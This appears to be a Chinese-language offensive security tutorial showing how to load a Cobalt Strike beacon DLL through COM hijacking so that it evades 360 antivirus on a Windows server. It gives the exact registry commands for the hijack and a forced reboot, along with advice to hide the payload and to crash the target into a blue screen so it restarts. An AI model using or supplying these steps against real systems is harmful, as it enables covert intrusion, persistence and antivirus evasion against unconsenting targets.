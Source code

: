 # Cobalt Strike beacon 免杀上线 [ com 劫持 ]

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/28.html](http://book.iwonder.run/Tools/Cobalt Strike/28.html)

> 模拟目标环境:
> 
> AV-Server 192.168.3.58 装有最新版 360 套装 [ 卫士 + 杀毒 ] 2008r2 64 位系统
> 
> 第一步,既然是劫持 com,首先肯定得先有个 dll 才行,因为目标是 64 位系统,所以,我们此处在创建好监听器以后,直接生成一个 64 位的 dll payload 即可,具体如下

![image](img/3b5afc143be0759a52355fc9a85ba275.png)

> 第二步,将 dll payload 丢到目标机器的任意隐蔽[务必要尽可能隐蔽]目录下,并创建相应劫持项,指明 dll payload 绝对路径

```
# reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{42aedc87-2188-41fd-b9a3-0c966feabec1}\InProcServer32 /v "" /t REG_SZ /d "C:\Windows\Temp\info.dll" /f
# reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{42aedc87-2188-41fd-b9a3-0c966feabec1}\InProcServer32 /v "ThreadingModel" /t REG_SZ /d "Apartment" /f
# shutdown /r /t 0 
```

![image](img/592dcf61de864413ec3ba2111474a675.png)

> 第三步, 等待目标重启系统加载劫持项时便会触发执行我们的 dll payload,随后便会看到 beacon shell 被弹会,至于实战中如何尽可能快的让目标管理员去重启系统,比如,你可以可以试着想办法把它系统搞蓝屏

![image](img/61ac6e08f3dac38ef38f66b9eabc461a.png)

> 如下很明显,此时的 360 仍无任何反应,因为 CobaltStrike 3.8 生成的 dll payload,默认就是直接免杀 360 的,至于 3.8 之后的版本就更不用说了,免杀效果肯定只会更好,此处由于各种各样的原因,兵没有拿最新版的 CobaltStrike 3.13 给大家做演示,其实,说白点,仅仅作为一个使用者来讲,它们在实际使用上的差别并不是特别大,新版本中无非就是新增了一些功能和特性,功能使用非常简单那,特性又都是体现在内部的,外表也看不太出来,所以在学习期间,大可不必过于纠结现在用的是什么版本,先起码能保证自己灵活用起来再说,以后再去考虑更多别的事情,也为时不晚

![image](img/e656d8b142d03ff3ff1c97b1d27e9b90.png)

